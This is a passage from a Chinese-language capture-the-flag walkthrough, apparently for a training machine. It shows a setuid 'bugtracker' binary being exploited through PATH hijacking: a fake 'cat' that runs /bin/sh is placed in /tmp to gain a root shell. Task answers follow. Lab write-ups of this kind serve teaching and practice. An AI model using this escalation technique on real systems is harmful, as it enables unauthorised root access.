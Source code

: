 尝试使用该文件，提示输入bug id，这里随便输入一个1。



再次输入一个数字，发现他是使用cat命令进行打印，如果没有该编号的报告就会报错。这里发现所使用的cat命令没有进行路径指定，所以可以尝试添加环境变量执行我们想要执行的**cat**。

思路：bugtracker本来无权进入root目录的，但是使用了setid，使bugtracker暂时拥有了root权限，并且调用cat命令，直接调用cat命令调的是环境变量中的cat，那我们做一个恶意的cat命令，再把这个恶意的cat命令所在文件夹设置为环境变量，那bugtracker调用的就是恶意cat，具体命令如下：
```powershell
export PATH=/tmp:$PATH				//将/tmp目录设置为环境变量
cd /tmp/							//切换到/tmp目录下
echo '/bin/sh' > cat				//在此构造恶意的cat命令
chmod +x cat						//赋予执行权限
```

![img](assets/4c5cc2d702f1a5ec446e198edd9caffc.png)

之后再进入root文件夹就能顺利找到flag

## task1

With what kind of tool can intercept web traffic?

用什么样的工具可以拦截网络流量？

`proxy`

## task2

What is the path to the directory on the webserver that returns a login page?
